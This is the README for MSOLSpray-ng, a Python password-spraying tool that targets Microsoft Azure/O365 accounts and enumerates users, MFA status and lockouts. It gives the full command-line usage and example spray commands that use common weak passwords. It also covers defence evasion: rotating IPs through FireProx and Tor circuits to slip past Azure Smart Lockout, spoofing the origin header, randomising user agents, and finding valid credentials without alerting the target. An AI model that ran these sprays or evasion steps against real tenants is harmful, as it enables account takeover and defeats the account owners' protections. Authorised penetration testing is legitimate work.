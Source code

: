# MSOLSpray Next-Generation

This projected started as a fork of
[MSOLSpray](https://github.com/MartinIngesen/MSOLSpray) and was later
renamed to
[MSOLSpray-ng](https://github.com/y0k4i-1337/MSOLSpray-ng) to avoid confusion
with the original project.

Since then, many features have been added and the project has been partially
refactored aiming OpSec and fine-tuning.

**The original project was a pure Python rewrite of [dafthack's MSOLSpray](https://github.com/dafthack/MSOLSpray/) which is written in PowerShell.**

MSOLSpray is a password spraying tool for Microsoft Online accounts (Azure/O365). The script logs if a user cred is valid, if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, or if the account is disabled.

**BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!**

## Why another spraying tool?
The main difference with this tool is that it is not only looking for valid passwords, but also the extremely verbose information Azure AD error codes give you. These error codes provide information relating to if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, if the account is disabled, if the password is expired and much more.

So this doubles as not only a password spraying tool but also a Microsoft Online recon tool that will provide account/domain enumeration. In limited testing it appears that on valid login to the Microsoft Online OAuth2 endpoint it isn't auto-triggering MFA texts/push notifications making this really useful for finding valid creds without alerting the target.

Lastly, this tool works well with
[FireProx](https://github.com/ustayready/fireprox) to rotate source IP
addresses on authentication requests. In testing this appeared to avoid getting
blocked by Azure Smart Lockout.

Since Amazon started to flag FireProx endpoints, the script now supports Tor
as well. You can use it with the `--tor` option. The script will then
automatically create a pool of Tor circuits and rotate over them for each
login attempt.

## Tor

You can also use this tool with Tor. For that, you need to have Tor installed and
running on your machine. You can then use the `--tor` option to route requests
through Tor.

In order to bypass throttling, the script can generate `N` number of different
circuits through
[IsolateSocksAuth](https://spec.torproject.org/proposals/351-socks-auth-extensions.html)
feature. For that, you need to set this sub-option in your `torrc` file
(usually located at `/etc/tor/torrc` on Linux or `/opt/homebrew/etc/tor/torrc` on MacOS):

```
SOCKSPort 9050 IsolateSOCKSAuth
```

## Quick Start
### Requirements

The easiest way to install dependencies is with `poetry`. You can do this by running:
```
poetry install
```

### MSOLSpray-ng

You will need a userlist file with target email-addresses one per line.
```
usage: msolspray [-h] (-u USERNAME | -U FILE | -C FILE | --tor-test) [-p PASSWORD | -P FILE] [--sep SEP] [-o OUTFILE]
                 [-x PROXY] [--url URL] [-f | --force-first] [--shuffle] [-a {0,1,2}] [--notify NOTIFY]
                 [--notify-actions NOTIFY_ACTIONS] [--notify-each] [-s SLEEP] [--pause PAUSE] [-j JITTER] [-l PERCENT]
                 [-H HEADERS] [-A NAME] [--rua] [--timeout TIMEOUT] [--tor] [--tor-port SOCKS_PORT]
                 [--tor-pool TOR_POOL] [-v]

This script will perform password spraying against Microsoft Online accounts (Azure/O365). The script logs if a user cred is valid, if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, or if the account is disabled.

options:
  -h, --help            show this help message and exit
  -u, --username USERNAME
                        Single username
  -U, --usernames FILE  File containing usernames in the format 'user@domain'.
  -C, --creds FILE      File containing credentials in the format '<user><separator><password>'.
  --tor-test            Test Tor connectivity and exit.
  -p, --password PASSWORD
                        Single password.
  -P, --passwords FILE  File containing passwords, one per line.
  --sep SEP             Separator used when parsing credentials file in CSV format.
  -o, --out OUTFILE     A file to output valid results to (default: valid_creds.txt).
  -x, --proxy PROXY     Use proxy on requests (e.g. http://127.0.0.1:8080)
  --url URL             A comma-separated list of URL(s) to spray against (default: https://login.microsoft.com).
                        Potentially useful if pointing at an API Gateway URL generated with something like FireProx to
                        randomize the IP address you are authenticating from.
  -f, --force           Forces the spray to continue and not stop when multiple account lockouts are detected.
  --force-first         Like --force but only for first iteration. Use it with '-a 2' for optimization.
  --shuffle             Shuffle user list.
  -a, --auto-remove {0,1,2}
                        Auto remove accounts from next iterations (0: valid credentials (default), 1: previous +
                        nonexistent/disabled, 2: previous + locked).
  --notify NOTIFY       Slack webhook for sending notifications about results (default: None).
  --notify-actions NOTIFY_ACTIONS
                        Slack webhook for sending notifications about needed actions (default: same as --notify).
  --notify-each         If set in conjunction with --notify WEBHOOK, it will notify each valid creds besides final
                        summary.
  -s, --sleep SLEEP     Sleep this many seconds between tries (default: 0).
  --pause PAUSE         Pause (in minutes) between each iteration (default: 15).
  -j, --jitter JITTER   Maximum of additional delay given in percentage over base delay (default: 0).
  -l, --max-lockout PERCENT
                        Maximum lockouts (in percent) to be observed before ask to abort execution. (default: 10).
  -H, --header HEADERS  Extra header to include in the request (can be used multiple times).
  -A, --user-agent NAME
                        Send User-Agent NAME to server (default: "Mozilla/5.0 (Windows NT 10.0; Win64; x64)
                        AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36").
  --rua                 Send random User-Agent in each request.
  --timeout TIMEOUT     Timeout for requests (default: 4)
  --tor                 Use Tor for requests (overrides --proxy).
  --tor-port SOCKS_PORT
                        Tor socks port to use (default: 9050).
  --tor-pool TOR_POOL   Number of Tor circuits to create (default: 10).
  -v, --verbose         Prints usernames that could exist in case of invalid password.

EXAMPLE USAGE:
This command will use the provided userlist and attempt to authenticate to each account with a password of Winter2020.
    python3 msolspray-ng.py --userlist ./userlist.txt --password Winter2020

This command uses the specified FireProx URL to spray from randomized IP addresses and writes the output to a file. See this for FireProx setup: https://github.com/ustayready/fireprox.
    python3 msolspray-ng.py --userlist ./userlist.txt --password P@ssword --url https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox --out valid-users.txt

This command will create a new tor circuit every 5 login attempts and use it to spray from randomized IP addresses.
    python3 msolspray-ng.py --userlist ./userlist.txt --password P@ssword --tor --tor-control-pw H1d3M3 --tor-refresh-interval 5

TIPS:
[1] When using along with FireProx, pass option -H "X-My-X-Forwarded-For: 127.0.0.1" to spoof origin IP.
```
